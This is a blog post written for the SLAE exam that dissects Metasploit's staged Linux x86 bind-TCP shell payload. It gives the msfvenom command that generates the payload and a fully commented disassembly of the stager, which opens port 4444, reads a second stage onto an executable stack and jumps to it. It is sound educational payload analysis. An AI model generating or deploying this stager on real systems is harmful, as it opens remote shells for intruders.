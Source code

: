 ```yaml
---
layout: post
title: SLAE Exam 5 Shellcode Analysis - Part 2
category: Security
tags: [slae, shell, assembly, programming]
---
```


I'm about to make up for some lost time! Today we're moving straight into part two of assignment 5. We'll be following the same basic analysis process, but in this post we'll be looking at the MSF staged-bind-shell payload. I'm looking forward to seeing how this works, because I've used it several times, but never bothered to look deeper. I guess that makes me a bad infosec operator! Anyways, let's dig in!

## Problem Statement

* Take up at least 3 shellcode samples created using Msfpayload for linux/x86
* Use GDB/Ndisasm/Libemu to dissect the functionality of the shellcode
* Present your analysis

As previously mentioned, we're looking at msfvenom's `linux/x86/shell/bind_tcp` payload. If you missed [Part One]({% post_url 2018-03-11-slae-exam-5-shellcode-analysis-part-1 %}), I highly recommend going back and reading that. Once you're all caught up, rejoin us below!

#### Generating the Files

We'll quickly get started by generating our raw and disassembled files.

```bash
root@kali:~/courses/slae/exam/assignment5# msfvenom -p linux/x86/shell/bind_tcp -a x86 --platform linux > staged_bind_shell.raw

root@kali:~/courses/slae/exam/assignment5# ndisasm -b 32 staged_bind_shell.raw > staged_bind_shell_analyzed.nasm
```


## Analysis

Now let's dig through the assembly and see what's really going on. One reference you'll want to have to follow along are these [socketcall numbers](http://jkukunas.blogspot.com/2010/05/x86-linux-networking-system-calls.html) that I came across. Also, full details for any of the functions called can be found on the second man page for each function (eg: man 2 function_name).


#### Declare Memory Region for Future Use

```
00000000      push byte +0x7d           ; push 7d
00000002      pop eax                   ; SYSCALL(125) // man 2 mprotect
00000003      cdq                       ; clear EDX
00000004      mov dl,0x7                ; prot mode, 7 = READ/WRITE/EXEC
00000006      mov ecx,0x1000            ; size of memory will be 0x1000
0000000B      mov ebx,esp               ; pointer to memory will be esp
0000000D      and bx,0xf000             ; align the address in bx to a page (0x1000 is size of a page according to "getconf PAGE_SIZE")
00000012      int 0x80                  ; call mprotect(esp, 0x1000, 7)
```

Here, the payload is going to prepare a section of memory for receiving the shellcode by calling `mprotect`. `mprotect` changes protection for the calling process's memory pages specified in the call. In this case, we are setting the memory protection to 7, which is a bitwise-and of the `PROT_READ`, `PROT_WRITE`, and `PROT_EXEC` values.


#### Make the Socket

```
00000014      xor ebx,ebx               ; Clear EBX
00000016      mul ebx                   ; Clear EAX, EDX
00000018      push ebx                  ; Push argument 0x00000000 (protocol of socket)
00000019      inc ebx                   ; socketcall number for SOCKET (found at /usr/include/linux/net.h)
0000001A      push ebx                  ; Push argument 0x00000001 (type of socket) SOCK_STREAM (see Assignment 1 for details)
0000001B      push byte +0x2            ; Push argument 0x2 (domain of socket) AF_INET (see Assignment 1 for details)
0000001D      mov ecx,esp               ; store pointer to [0x2, 0x00000001, 0x00000000] in ecx
0000001F      mov al,0x66               ; SYSCALL(0x66) // man 2 socketcall
00000021      int 0x80                  ; call socketcall(1, esp) -> socket(2, 1, 0) -> socket(AF_INET, SOCK_STREAM, 0) (see Assignment 1 for details)
```

Obviously, we need a socket to operate on. Socketcall is an interesting function, and I recommend reading the manpage for it in order to fully understand what's happening with it. Basically, the first argument to socketcall will be a number indicating which socket-based function to call, and the second argument will be a pointer to the arguments for that socket-based function. The numbers for the socket-based functions can be found above in the link posted at the beginning of the analysis. The rest of these operations have been covered in previous posts for SLAE, so I will ask that if the comments don't make sense, please review these earlier posts and then come back.


#### Set Socket Options

```
00000023      push ecx                  ; [*(2, 1, 0)] // current top of stack
00000024      push byte +0x4            ; [4, *(2, 1, 0)] // stack
00000026      push esp                  ; [*(4), 4, *(2, 1, 0)] // stack
00000027      push byte +0x2            ; [2, ...] // stack
00000029      push byte +0x1            ; [1, 2, ...] // stack
0000002B      push eax                  ; [SOCKFD, 1, 2, *(4), 4, *(2, 1, 0)] // stack
0000002C      xchg eax,edi              ; mov SOCKFD into edi, edi into eax
0000002D      mov ecx,esp               ; ecx now points to [SOCKFD, 1, 2, *(4), 4, *(2, 1, 0)]
0000002F      push byte +0xe            ; socketcall number for setsockopt
00000031      pop ebx                   ; EBX holds 0xe
00000032      push byte +0x66           ; prepare for syscall to socketcall
00000034      pop eax                   ; SYSCALL(0x66) // man 2 socketcall // used for next line: /usr/include/asm-generic/socket.h
00000035      int 0x80                  ; call socketcall(14, esp) -> setsockopt(SOCKFD, 1, 2, *4, 4) -> setsockopt(SOCKFD, SOL_SOCKET, SO_REUSEADDR, *4, 4)
```

Some extra options were specified for our socket in this section. This whole section sets the `SO_REUSEADDR` option on our socket. This option allows our program to bind to an address which is in a TIME_WAIT state. So, if our shellcode died for some reason, but launched again 10 seconds later, if we didn't set this option, the bind call would fail because the IP/PORT combo would be in a TIME_WAIT state. With this option, we can re-bind immediately if something bad happens.


#### Bind Socket

```
00000037      xchg eax,edi              ; restore SOCKFD into eax
00000038      add esp,byte +0x14        ; remove 0x14 (20) bytes from the stack
0000003B      pop ecx                   ; [*(2, 1, 0)]
0000003C      pop ebx                   ; 0x0000002 // man 2 bind
0000003D      pop esi                   ; 0x0000001 //
0000003E      push edx                  ; [0]
0000003F      push dword 0x5c110002     ; [0x5c110002, 0]
00000044      push byte +0x10           ; [0x10, 0x5c110002, 0]
00000046      push ecx                  ; [*(0x5c110002, 0), 0x10, 0x5c110002, 0]
00000047      push eax                  ; [SOCKFD, *(0x5c110002, 0), 0x10, 0x5c110002, 0]
00000048      mov ecx,esp               ; ecx now points to [SOCKFD, *(0x5c110002, 0), 0x10, 0x5c110002, 0]
0000004A      push byte +0x66           ; prepare for syscall to socketcall
0000004C      pop eax                   ; SYSCALL(0x66) // man 2 socketcall
0000004D      int 0x80                  ; call socketcall(2, esp) -> bind(SOCKFD, *sockaddr, sockaddr_len) -> bind(SOCKFD, {sin_family: 0x0002, sin_port: 0x115c (4444), sin_addr.s_addr: 0x00000000}, 0x10)
```

This section is pretty straightforward. We bind our socket to `0.0.0.0:4444`. Review comments for the details on each instruction.


#### Listen for Connections

```
0000004F      shl ebx,1                 ; shift 2 left once, resulting in 4 // man 2 listen
00000051      mov al,0x66               ; SYSCALL(0x66) // man 2 socketcall
00000053      int 0x80                  ; call socketcall(4, esp) -> listen(SOCKFD, &ecx) // the address of ecx is just the backlog int, no worries
```

Again, this section is very simple. We are just marking the socket as a passive socket that will be used to accept incoming connection requests using `accept`.


#### Accept Connections
```
00000055      push eax                  ; push return value of 0
00000056      inc ebx                   ; inc ebx to 5 // man 2 accept
00000057      mov al,0x66               ; SYSCALL(0x66) // man 2 socketcall
00000059      mov [ecx+0x4],edx         ; ecx is now pointing to [SOCKFD, 0x00000000, 0x10] // we don't care about sockaddr returning to us
0000005C      int 0x80                  ; call socketcall(5, ecx) -> accept(SOCKFD, NULL, 0x00000010)
```

Yet another simple section, where we instruct our socket to extract the first connection request on the queue of pending connections and return the file descriptor of a newly created socket for that connection.


#### Read From New Connection

```
0000005E      xchg eax,ebx              ; move returned NEWFD into ebx, SOCKFD into eax
0000005F      mov dh,0xc                ; edx now 0x00000c00
00000061      mov al,0x3                ; SYSCALL(3) // man read
00000063      int 0x80                  ; read(NEWFD, ECX, 0xC00)
```

Since this is a staged connection, we will read 0xc00 bytes from our new connection, and store the received data onto the stack.


#### Close STDIN

```
00000065      xchg ebx,edi              ; store NEWFD in edi
00000067      pop ebx                   ; pop 0x00000000 into ebx
00000068      mov al,0x6                ; SYSCALL(6) // man 2 close
0000006A      int 0x80                  ; close(0) // close stdin
```

This was an interesting section. All it's doing is closing STDIN, but why? Apparently, this is wise to do so that no data from STDIN can interefere with the shell. Cool find!


#### Jump to the Staged Shellcode

```
0000006C      jmp ecx                   ; jump to data received from NEWFD (staged payload)
```

ECX is still pointing to the staged shellcode. So, we are simply passing execution to that newly received shellcode in this final section!


## Wrapping Up

The `linux/x86/shell/bind_tcp` payload was a very cool payload to dissect. I learned a lot about the `socketcall` function, as well as how to read data onto the stack and mark the section of code as readable, writable, and executable. Overall, I had a great time doing this assignment and I can't wait to move on to the commonly used reverse tcp shell! Until then, keep grinding!


###### SLAE Exam Statement

This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification:

http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/

Student ID: SLAE-1158
